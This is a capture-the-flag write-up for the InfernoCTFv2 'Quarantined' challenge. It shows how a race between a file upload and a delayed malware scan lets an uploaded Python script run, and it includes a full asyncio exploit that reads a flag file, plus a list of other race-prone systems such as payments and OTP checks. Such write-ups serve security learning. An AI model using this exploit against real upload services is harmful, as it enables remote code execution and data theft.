

## Introduction

This is a step-by-step writeup for the Quarantined CTF challenge from InfernoCTFv2, established by [Securinets ISTIC](https://www.facebook.com/p/SecuriNets-ISTIC-61575887789253/) and authored by [Rayene9052](https://github.com/Rayene9052).

## Recon

First, when we open the challenge, it is a website for file storage where you upload files that have specific extensions, as shown in the following image.



So the allowed file extensions are: `TXT MD CSV JSON LOG XML YAML INI CFG`.

If we upload a file, we realize that there are two steps: uploading and then verification of the extension or file content.

So, a file is uploaded, and then the extension is verified. To confirm our doubts, we can use Burp Suite and intercept each request and investigate each response.

When a specific file is uploaded, it sends a POST request to the `/upload` endpoint, and then in response, the following JSON is sent.

```json
{
"file_id":"f5df53d21b94492e",
"filename":"f5df53d21b94492e.py",
"message":"File received. Security scan in progress.",
"status":"scanning",
"success":true
}
```

So that means my assumption was correct: the file is uploaded regardless of its extension, and then it is scanned to be deleted later. Using the endpoint `/api/status/f56de5d587194907`, we can see that the file is deleted after it was uploaded.

```json
{
"filename":"f56de5d587194907.py",
"original_name":"exploitRCE.py",
"reason":"Blocked extension: .py",
"size":770,
"status":"quarantined",
"uploaded_at":"2026-09-06T19:55:27.676417"
}
```

So what happens is: `file uploaded -> name without extension gets hashed -> {hash}.ext is generated -> scanning -> file deleted if malicious`.

So what we should try to do is run this file, but how can this file be executed?

Let's also check `robots.txt` to see what it could possibly hide.

So there is an API endpoint to check or read uploaded files using `/uploads/filename.extension`, and there is another endpoint to actually run the file. So let's try to upload a `.txt` file and run it.

```sh
User-agent: *
Allow: /
Disallow: /api/
Disallow: /api/run/
Disallow: /uploads/
```

We can conclude that to execute a file, we use `/api/run/filename.extension`, and we know the filename because it is leaked within the JSON.

## Vuln Detection and Analysis

The potential vulnerability is a race condition where we try to run the file while the other service is still scanning, quarantining, or deleting it. That is the potential vulnerability. We can say that this is the one from the structure of the project, which has two steps: uploading and then scanning. We exploit the time window between these two operations and run the uploaded Python file.

Why a Python file and not a PHP one? Doing reconnaissance using Wappalyzer or WhatWeb, we can see that the web app is built using Python, so there is a high chance that a Python script should be uploaded. If it fails, we are going to do some fuzzing to know which script file is supported, since the `/api/run/f8129b6dfe0a4bf1.txt` endpoint returns the following JSON.

```JSON

{"error":"Unsupported script type"}

```

## Exploitation and Payload

To do this, we need to write a Python exploit that does the following steps.

1. Upload a malicious Python file that cats the flag using `cat flag.txt`.
2. Get the file name.
3. Use `asyncio` to send multiple requests to the `/api/run/filename.py` endpoint to run the script and get the flag.

The script is as follows (don't judge my exploit — I'm no AI, and I hate writing exploits with LLMs because it adds a lot of unnecessary things):

```py
import httpx
import asyncio

URL = "http://68.210.184.173:4000"


# After testing and running the exploit, the flag is within that path

files = {
    "file": (
        "exploit.py",
        b'''import subprocess

output = subprocess.check_output(["cat", "../../flag.txt"], text=True)
print(output)
''',
        "text/x-python",
    )
}

async def main():
    async with httpx.AsyncClient() as client:
        r = await client.post(URL+'/upload',files=files)
        r = r.json()
        filename = r['filename']
        tasks = [client.get(URL+f'/api/run/{filename}') for _ in range (100)]
        results = await asyncio.gather(*tasks)
        print(results)
        for i in results:
            if i.status_code < 299:
                print(i.text)
            if "INFERNO" in i.text:
                print(i.text)


asyncio.run(main())
```

After running that exploit, we get the following results.

```json
{"exit_code":0,"stderr":"","stdout":"INFERNOCTF{d0ubl3_3xtens1on_4ttack??_r34lly!!}\n\n"}

{"exit_code":0,"stderr":"","stdout":"INFERNOCTF{d0ubl3_3xtens1on_4ttack??_r34lly!!}\n\n"}

{"exit_code":0,"stderr":"","stdout":"INFERNOCTF{d0ubl3_3xtens1on_4ttack??_r34lly!!}\n\n"}

{"exit_code":0,"stderr":"","stdout":"INFERNOCTF{d0ubl3_3xtens1on_4ttack??_r34lly!!}\n\n"}
.
.
.

```

We got the flag, and if we want to be nasty, we can delete it :D. Seriously, don't do this; I tried it, and it gave me permission denied, so the author knows his stuff.

## Conclusion

That was a great challenge for race conditions. No double extension is required, unlike what was mentioned in the original writeup by the author [here](https://github.com/Rayene9052/INFERNO_CTF_V2_Web_Writeups/tree/main/Quarantined).

So, to detect race condition challenges, there are usually multiple steps within an operation where you need to exploit the time window between them.

And the types of challenges that usually have these vulnerabilities are the following:

- File upload + AV/malware scan (your case) — classic, common.
- Coupon/promo code redemption — check-then-decrement balance race is nearly universal in poorly built e-commerce.
- Withdrawal/balance systems — "check balance → deduct" is the textbook double-spend race.
- Account verification / KYC gating — "pending" accounts sometimes retain elevated access briefly.
- Object storage pre-signed URLs / ACL propagation — S3-like systems where ACL changes are eventually consistent.
- Password reset / OTP validation — single-use token races (use twice before invalidation writes commit).
- Moderation/report systems — content visible until moderation queue catches up.
- Job queues with idempotency assumptions — double-processing of the same job ID.